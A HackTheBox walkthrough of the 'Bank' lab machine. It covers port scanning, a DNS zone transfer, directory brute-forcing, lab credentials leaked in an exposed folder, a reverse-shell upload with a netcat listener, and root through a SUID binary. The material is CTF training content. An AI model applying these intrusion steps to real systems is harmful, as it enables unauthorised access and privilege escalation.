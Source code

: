 ```yaml
---
title: Bank - A HackTheBox machine 
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - walkthrough
  - enumeration
  - reverse shell
  - suid binaries
---
```


# Bank - A HackTheBox machine

The entire exploitation of this machine depends on:

- reconnaissance phase: being able to determine that some "dns digging" or "/etc/host" changes must be done. Also, there is some guessing. You need to assume that bank.htb is a valid domain for a dns transfer... mmm weird.
- enumeration phase: using the right dictionary to locate a data breach with password for accessing.

Later on, other skills are appreciated, such as reading comments on source code. 

## User's flag

### Reconnaisance

```bash
nmap -sV -sC -Pn  -p-
```

Results:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 08eed030d545e459db4d54a8dc5cef15 (DSA)
|   2048 b8e015482d0df0f17333b78164084a91 (RSA)
|   256 a04c94d17b6ea8fd07fe11eb88d51665 (ECDSA)
|_  256 2d794430c8bb5e8f07cf5b72efa16d67 (ED25519)
53/tcp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.9.5-3ubuntu0.14-Ubuntu
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
| http-title: HTB Bank - Login
|_Requested resource was login.php
|_http-server-header: Apache/2.4.7 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's check UDP connections to port 53:

```bash
sudo nmap -sU -sC -sV -Pn 10.129.29.200 -p53
```

Results:

```
PORT   STATE SERVICE VERSION
53/udp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.9.5-3ubuntu0.14-Ubuntu
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


Open browser and examine http://10.129.29.200 and an Apache web server banner.

Since the DNS server is running on port 53 TCP/UDP, we can attempt a zone transfer. However, it is worth noting that guessing bank.thb as a valid zone for this transfer is not a very realistic or scientific approach to penetration testing. Nevertheless, since this is HackTheBox and we are playing this game, let's allow ourselves to go with the flow.

Go here for "[digging more into DNS transfer zones](dig.md)".

```shell
dig axfr bank.htb @10.129.29.200
```

Results:

```
; <<>> DiG 9.18.12-1-Debian <<>> axfr bank.htb @10.129.29.200
;; global options: +cmd
bank.htb.               604800  IN      SOA     bank.htb. chris.bank.htb. 6 604800 86400 2419200 604800
bank.htb.               604800  IN      NS      ns.bank.htb.
bank.htb.               604800  IN      A       10.129.29.200
ns.bank.htb.            604800  IN      A       10.129.29.200
www.bank.htb.           604800  IN      CNAME   bank.htb.
bank.htb.               604800  IN      SOA     bank.htb. chris.bank.htb. 6 604800 86400 2419200 604800
```

Add those results to /etc/hosts:

```bash
echo "10.129.29.200   bank.htb chris.bank.htb ns.bank.htb www.bank.htb" | sudo tee -a /etc/hosts 
```

### Enumeration

```bash
whatweb http://bank.htb
```

Results:

```
http://bank.htb [302 Found] Apache[2.4.7], Bootstrap, Cookies[HTBBankAuth], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.7 (Ubuntu)], IP[10.129.29.200], JQuery, PHP[5.5.9-1ubuntu4.21], RedirectLocation[login.php], Script, X-Powered-By[PHP/5.5.9-1ubuntu4.21]                                                                                                       
http://bank.htb/login.php [200 OK] Apache[2.4.7], Bootstrap, Cookies[HTBBankAuth], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.7 (Ubuntu)], IP[10.129.29.200], JQuery, PHP[5.5.9-1ubuntu4.21], PasswordField[inputPassword], Script, Title[HTB Bank - Login], X-Powered-By[PHP/5.5.9-1ubuntu4.21]
```

After browsing the site, reading the source code and trying some SQL injections, let's do some more enumeration.

```bash
gobuster dir -u http://bank.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```

Results:

```
/uploads              (Status: 301) [Size: 305] [--> http://bank.htb/uploads/]
/assets               (Status: 301) [Size: 304] [--> http://bank.htb/assets/]
/inc                  (Status: 301) [Size: 301] [--> http://bank.htb/inc/]
/server-status        (Status: 403) [Size: 288]
/balance-transfer     (Status: 301) [Size: 314] [--> http://bank.htb/balance-transfer/]

```

We have  a data breach under http://bank.htb/balance-transfer/

### Exploitation

Browsing that exposed URL we can filter columns by size. That would be a quick way to spot the file that contains the credentials (it has a different size from the others). Again, this is HackTheBox and not the reality. In the real world you would probably download as silently as possible all the files, for further processing.  

But this is HackTheBox and we have credentials to proceed to the next step. Login into the dashboard http://bank.htb/login.php:

```
--ERR ENCRYPT FAILED
+=================+
| HTB Bank Report |
+=================+

===UserAccount===
Full Name: Christos Christopoulos
Email: chris@bank.htb
Password: !##HTBB4nkP4ssw0rd!##
CreditCards: 5
Transactions: 39
Balance: 8842803 .
===UserAccount===
```

Browsing around a little, and reading source code, you can easily find a valuable debug comment:

![debug comment](img/bank_2.png)

With this, I just modified my [pentesmonkey](pentesmonkey.md) file to extension .htb and had it uploaded. Under column "Attachment" in the dashboard, you have the link to the uploaded file.

Start a netcat listener:

```bash
nc -lnvp 1234
```

In my case, I clicked on http://bank.htb/uploads/pentesmonkey.htb and got a reverse shell.

Cat the user.txt


## Flag root.txt

After some basic reconnaissance, I run:

```bash
find / -perm /4000 2>/dev/null
```

And results:

```
/var/htb/bin/emergency
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
...
```

`/var/htb/bin/emergency` catches our attention inmediately. Doing a strings on it we can see that it contains a "/bin/bash" command. After resolving this machine, I read [this writeup](https://0xdf.gitlab.io/2020/07/07/htb-bank.html#emergency) and got some insights about how to investigate an elf file beyond doing some strings. In this writeup, a md5sum is done and googling the hash returned that this elf file is in reality a dash shell.

Nice. Run the binary and you are root. If you have spawned the shell you may run into problems. Better do it without spawning it.

```bash
./var/htb/bin/emergency
```
